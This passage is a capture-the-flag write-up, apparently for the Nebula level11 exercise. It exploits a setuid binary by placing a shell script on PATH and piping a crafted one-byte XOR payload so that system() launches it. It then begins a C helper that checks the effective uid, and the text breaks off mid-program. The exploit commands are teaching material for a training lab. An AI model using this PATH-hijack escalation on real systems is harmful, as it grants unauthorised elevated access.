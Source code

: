 	}


This level is not as easy as it seems first. There should be two ways to exploit this code. The first way reads
one byte of data into a buffer and then calls `process(buf)` on it. `process()` xors the buffer contents with itself 
and a key. So we can easily execute one byte/char with system. But how to call getflag with it?

See the question here <http://stackoverflow.com/questions/556194/calling-a-script-from-a-setuid-root-c-program-script-does-not-run-as-root>


What I tried was the following:

	:::bash
	# Change to the flag account
	cd /home/flag11
	# create a bash script in the /home/level11 directory
	echo -e '#!/bin/bash\n/bin/sh' > ~/s
	# make it executable
	chmod +x ~/s
	# set the path to include our home directory
	PATH=$PATH:/home/level11/
	# execute the flag11 binary with the payload such that process will execute
	# system('s'). The char 'r' will be xored with 1, which yields 's'
	# you need to repeat this some times until the proper payload is executed.
	python -c 's = "Content-Length: 1\nr"; print(s);' | ./flag11


But It seems like `system()` doesn't interpret setuid scripts...

I tried it with a C program instead of a bash script, compiled it and saved the executable to
`~/s` and tried it again:

	:::C
	#include <stdlib.h>
	#include <stdio.h>

	int main(int argc, char** argv) {
		// flag11 is 988, level11 is 1012
		uid_t euid = geteuid();
	    